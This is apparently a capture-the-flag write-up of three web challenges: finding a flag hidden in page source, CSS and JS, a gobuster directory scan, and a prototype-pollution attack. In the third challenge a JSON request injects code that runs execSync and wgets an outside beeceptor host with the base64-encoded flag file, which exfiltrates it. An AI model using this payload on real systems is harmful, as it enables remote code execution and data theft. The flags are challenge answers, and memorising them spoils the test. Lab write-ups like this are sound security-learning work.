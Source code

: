 ### WEB 1 : Inspector Gadget

- Page Source:
```html
<head>
    [...omitted...]
    <link rel="stylesheet" href="/static/css/main.css">
</head>
<body>
    <center><h1>CHTB{</h1></center>
    <div id="container"></div>
</body>
[...omitted...]
<script src="/static/js/main.js"></script>
<!--1nsp3ction_-->
```
- /static/css/main.css
```css
/* c4n_r3ve4l_ */
[...omitted...]
```
- /static/js/main.js
```js
console.log("us3full_1nf0rm4tion}");
[...omitted...]
```

FLAG : CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}

---

### WEB 2 : DaaS

```console
$ gobuster dir -u http://138.68.141.182:30845/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt

/index.php            (Status: 200) [Size: 17474]
/storage              (Status: 301) [Size: 178] [--> http://138.68.141.182/storage/]
/robots.txt           (Status: 200) [Size: 24]
```

---

### WEB 3: BlitzProp

```http
POST /api/submit HTTP/1.1
Host: 138.68.141.182:32383
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.141.182:32383/
Content-Type: application/json
Origin: http://138.68.141.182:32383
Content-Length: 232
DNT: 1
Connection: close

{
    "song.name":"Not Polluting with the boys",
    "__proto__.block": {
        "type": "Text",
        "line":"process.mainModule.require('child_process').execSync('wget https://jebidiah.free.beeceptor.com/$(cat flagjTXvx | base64)').toString()"
    }
}
```

FLAG : CHTB{p0llute_with_styl3}